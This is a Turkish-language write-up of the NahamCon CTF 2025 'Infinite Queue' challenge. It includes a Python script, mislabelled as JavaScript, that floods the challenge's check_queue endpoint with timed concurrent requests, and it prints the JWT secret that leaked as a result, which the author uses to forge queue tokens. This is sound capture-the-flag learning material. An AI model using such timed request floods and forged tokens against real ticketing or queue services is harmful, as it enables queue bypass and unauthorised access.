 ## NahamCon CTF 2025 -Infinite Queue Writeup

### Soru:
![alt text](image-8.png)

### Çözüm:
Soruya girdiğimde bi çeşit bilet alma ve kuyruğa girme ekranı açıldı. Kuyruğa girdiğimde ise;

![alt text](image-9.png)

Burp Suite den istek ve cevapları incelediğimde şu bulgulara vardım;

![alt text](image-10.png)

![alt text](image-11.png)

Bizden beklenen şey büyük ihtimalle zaman sıçraması yapıyormuşuz gibi davranmak yani sıranın başına geçmiş gibi gösteren bir check_queue isteği oluşturmak. Buradaki anahtar nokta, token zaman bilgisini içeriyorsa veya tahmin edilebilir bir formatta üretiliyorsa, onu manipüle ederek en öne geçmeyi simüle etmek.

Bunun için şöyle bi script gerekti:

``` JavaScript
import asyncio
import aiohttp
from datetime import datetime

TOKEN = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiY2Fuc3UiLCJxdWV1ZV90aW1lIjoxODAyODQ5MDU1LjgwMzIzfQ.qsBmfrObWK9Kd64GnL2xUdh6gt1gu8zB-3lbc5eWKl"

URL = "http://challenge.nahamcon.com:31341/check_queue"

HEADERS = {
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0",
}

async def send_check(session, index):
    data = f"token={TOKEN}"
    async with session.post(URL, data=data, headers=HEADERS) as resp:
        text = await resp.text()
        print(f"[{datetime.now().time()}] Req#{index} → Status: {resp.status}\n{text}\n")

async def main():
    target = datetime.strptime("2025-05-26 18:00:00", "%Y-%m-%d %H:%M:%S")

    # Bekle ve doğru zaman geldiğinde başlat
    print("⏳ Bekleniyor...")
    while datetime.now() < target:
        await asyncio.sleep(0.001)

    print("🚀 Başlıyoruz...")

    # Aynı anda 50 istek gönder
    async with aiohttp.ClientSession() as session:
        await asyncio.gather(*[send_check(session, i) for i in range(50)])

# Çalıştır
asyncio.run(main())
```
Bunu çalıştırdığımda JWT Gizli Anahtarı Sızdı:
*JWT_SECRET = "4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC"*
Artık kendi geçerli JWT token'ımızı imzalayabiliriz.

![alt text](image-17.png)
Bu script, JWT token'ı sahte zamanla üretip sıranın başındaymış gibi sunucuya sürekli istek göndererek flag veya bilet dosyasını otomatik olarak almaya çalışır. Sonrasında sunucudan hazır olduğunu belirten yanıt alınca, flag veya bilet bilgisi içeren ikili veriyi .bin dosyası olarak kaydediyor. Sonra dosyayı pdf formatına çeviriyoruz ve...

### FLAG!🥳

![alt text](image-15.png)